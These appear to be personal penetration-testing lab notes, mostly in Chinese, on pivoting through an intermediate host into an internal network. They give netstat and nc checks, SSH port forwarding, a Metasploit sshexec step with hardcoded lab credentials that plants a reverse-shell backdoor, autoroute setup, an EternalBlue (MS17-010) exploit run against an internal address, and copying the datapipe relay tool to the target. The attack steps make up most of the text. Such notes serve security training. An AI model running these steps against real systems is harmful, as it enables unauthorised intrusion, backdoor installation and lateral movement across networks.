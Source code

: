 藉由第一臺登到第二臺

* client check
    sudo netstat -antp | grep :8888
    
* hop check
    sudo netstat -antp
    
nc 127.0.0.1 8888
會直接連線到target，中間hop不會有紀錄
或
`ssh -p 8888 (username)@127.0.0.1`

* target check
    sudo netstat -antp
    
* find /etc/ssh
* netstat -antp

### Meterpreter **Session Routing**
利用SSH種後門(reverse shell)
再利用meterpreter 用永恆之藍exploit
(缺點無腦，綁定meterpreter)

選database server 當 target
//把該target 172_subnet 網卡關掉
//把該parrot 192_subnet 網卡關掉
啟動網卡
ifconfig eth* up
關閉網卡
ifconfig eth* down

msfconsole -q
search sshexec
set rhosts 172.19.19.70
set username administrator
set password Infinit3
set lhost 172.19.19.18
exploit

* Meterpreter
run post/multi/manage/autoroute OPTION=s
run autoroute -p
background

search 17_010
use 2(檢查下路徑編號對不對)
set rhost 192.168.0.7
exploit
(成功率不高，平均20次中一次)

### Datapipe

https://github.com/bovine/datapipe

把datapipe.c丟到target
```
scp datapipe.c administrator@172.19.19.70:~/.
```
